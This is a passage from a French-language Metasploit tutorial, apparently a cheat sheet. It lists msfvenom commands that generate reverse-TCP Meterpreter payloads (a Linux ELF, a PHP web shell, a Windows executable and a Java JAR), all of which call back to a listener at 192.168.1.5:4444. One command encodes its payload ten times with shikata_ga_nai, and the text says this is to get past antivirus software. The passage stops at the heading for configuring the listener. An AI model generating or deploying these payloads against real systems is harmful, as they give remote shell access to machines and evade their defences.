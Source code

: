 #### 2. Générer un Payload Linux

*   **Commande** :

    ```bash
    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f elf -o payload.elf
    ```
* **Explication** :
  * Formate le payload en un fichier ELF pour Linux.

***

#### 3. Générer un Payload Web (PHP)

*   **Commande** :

    ```bash
    msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f raw -o shell.php
    ```
* **Explication** :
  * Génère un shell PHP pour obtenir une session Meterpreter.

***

#### 4. Encoder un Payload pour Contourner les Antivirus

*   **Commande** :

    ```bash
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe
    ```
* **Explication** :
  * `-e` : Utilise un encodeur (ici `shikata_ga_nai`).
  * `-i 10` : Encode le payload 10 fois pour augmenter les chances de contournement.

***

#### 5. Générer un Payload Multi-Plateforme

*   **Commande** :

    ```bash
    msfvenom -p java/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f jar -o payload.jar
    ```
* **Explication** :
  * Crée un payload au format `.jar` pour cibler les environnements Java.

***

### 🚀 Étape 5 : Configurer un Listener dans Metasploit

***

#### Configurer Metasploit pour Recevoir le Payload
